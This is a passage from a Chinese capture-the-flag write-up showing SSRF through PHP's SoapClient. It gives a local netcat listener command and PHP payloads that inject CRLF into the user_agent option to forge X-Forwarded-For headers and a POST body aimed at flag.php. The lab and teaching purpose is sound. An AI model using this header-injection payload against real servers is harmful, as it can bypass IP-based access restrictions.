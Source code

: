 ```shell
.\nc64.exe -lvp 9999

监听9999端口
-l： 开启监听
-p：指定端口
-t： 以telnet形式应答
-e：程序重定向
-n：以数字形式表示ip
-v：显示执行命令过程
-z : 不进行交互，直接显示结果
-u ：使用UDP协议传输
-w : 设置超时时间
```

#### 本地测试

:::info

- **SoapClient::__construct**(?string $wsdl, array $options = []) ,SoapClient类，
- 第二个参数中 uri指nameSpacelocation 
- location：The URL of the SOAP server to send the request to.
  :::

```php
<?php
$ua="ctfshow\r\nx-forwarded-for:127.0.0.1,1\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:13\r\n\r\ntoken=ctfshow";
$client=new SoapClient(null,array('uri'=>"127.0.0.1",'location'=>"http://127.0.0.1:9999",);
$client->getFlag();  //调用不存在的方法，会自动调用——call()函数来发送请求
?>
```

- **调用不存在的方法，会自动调用__call()函数来发送请求**，因此才可以监听到
- 监听到的信息如下:

![cd0b8b184445e0e036680bec91acf90.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669625077997-9b1c1c9a-6749-4017-a649-0c90acdc6010.png#averageHue=%23032658&clientId=u451b27a7-18ab-4&from=paste&height=237&id=u2daf9ec0&originHeight=522&originWidth=1932&originalType=binary&ratio=1&rotation=0&showTitle=false&size=67117&status=done&style=none&taskId=ubfe8c028-8bcd-4cc0-970e-fd03064df3f&title=&width=878.1817991477403)

- 这里可以看到User-Agent是可以注入的

```php
<?php
$ua="ctfshow\r\nx-forwarded-for:127.0.0.1\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:13\r\n\r\ntoken=ctfshow";
$client=new SoapClient(null,array('uri'=>"127.0.0.1",'location'=>"http://127.0.0.1/flag.php",'user_agent'=>$ua));
$client->getFlag();  //调用不存在的方法，会自动调用——call()函数来发送请求
?>
```

:::info
**知识点：**

- windows中使用\r\n表示换行
  :::
